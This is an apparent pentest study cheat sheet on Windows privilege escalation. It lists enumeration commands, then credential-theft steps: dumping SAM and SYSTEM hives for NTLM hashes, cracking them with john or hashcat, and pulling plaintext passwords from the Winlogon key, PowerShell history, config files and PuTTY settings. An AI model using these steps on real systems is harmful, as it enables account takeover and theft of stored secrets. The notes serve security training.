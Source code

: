 ### System Information

- `systeminfo`: Displays detailed configuration information about the computer.
- `hostname`: Shows the system's hostname.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn`: Lists installed hotfixes.
- `wmic logicaldisk get name`: Displays logical drives.
- `net user`: Lists user accounts.
- `net user [username]`: Displays detailed information about a specific user.
- `whoami`: Shows the current user.
- `whoami /priv`: Displays the privileges of the current user.

### Network Information

- `ipconfig /all`: Displays all IP configuration information.
- `netstat -ano`: Shows active connections and listening ports.

## **Check User Permissions and Group Info (Filtered View)**

```bash
whoami /all | Select-String -Pattern "username" -Context 2,0

# example
whoami /all | Select-String -Pattern "wade" -Context 2,0
```
This command helps you **find out what groups or permissions a specific user (like `jareth`) has** on a Windows system. It searches through the detailed `whoami /all` output and shows any lines related to the user, along with 2 lines above it for extra context. Useful during **privilege escalation** to check if a user has powerful roles or tokens.

# Show folders recursive 

```bash
tree /f
```

# Dumping NTLM Hashes
#### Step 1: Save the Registry Hives
📝 Make sure you have administrative or SYSTEM privileges to run these commands.

```bash
# Stores user password hashes
reg save HKLM\SAM SAM   

# Contains the boot key used to decrypt the hashes
reg save HKLM\SYSTEM SYSTEM 

# May be used for further secrets (e.g., LSA secrets
reg save HKLM\SECURITY SECURITY 
```
#### Step 2: Extract Hashes Using `samdump2`
Once you have the `SAM` and `SYSTEM` hives, extract the hashes with: 

```
samdump2 SYSTEM SAM
```
#### Step 3: Crack the Hashes
I take the LM code of  and decode it through online site _Crackstation,_ you guys can try it with offline tools like: **_JohnTheRipper_** or **_Hashcat_**.
```bash
# _JohnTheRipper_
john --format=nt hash.txt --wordlist=rockyou.txt

#_Hashcat_
`hashcat -m 1000 hash.txt rockyou.txt`
```
## Winlogon Registry Key

---

### 📌 What is it?

The `Winlogon` registry key holds important **Windows login settings** such as:

- Auto-login username and password
- What program runs when a user logs in (like `explorer.exe`)
- Potential persistence or privilege escalation points for attackers

 Command to **Find stored plaintext credentials** (DefaultUsername/Password)

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## **Unattended Windows Installations**

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## **Powershell History**

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

## **Saved Windows Credentials**

```bash
cmdkey /list
```

## **IIS Configuration**

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## **Retrieve Credentials from Software: PuTTY**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note:** Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

## **Scheduled Tasks**

List all scheduled tasks

```bash
schtasks 
```

 Check details about a specific task

```bash
schtasks /query /tn vulntask /fo list /v
```

Check who can modify the file

```bash
icacls c:\tasks\schtask.bat
```

## **Unpatched Software:**

```bash
wmic product get name,version,vendor
```

- **`wmic`**
    - Stands for **Windows Management Instrumentation Command-line**
    - Used to gather system info from the Windows OS via command line
- **`product`**
    - Refers to **installed software/products** on the system
- **`get`**
    - Tells WMIC to **retrieve information**
- **`name,version,vendor`**
    - Specifies the **details to display** for each installed product:
        - `name` → software name
        - `version` → version number
        - `vendor` → software developer/company name


## 🔐 Password Hunting Techniques

Use the command mentioned here to find the clear text passwords and other commands mentioned for password hunting https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

### Common Locations:

- Plaintext credentials in:
    - Config files
    - Registry
    - SAM & SYSTEM files

### SAM + SYSTEM Hash Dump

If files are accessible, use tools like `pwdump`: https://github.com/CiscoCXSecurity/creddump7

```
./pwdump.py SYSTEM SAM
```

Use `john` or `hashcat` to crack hashes.

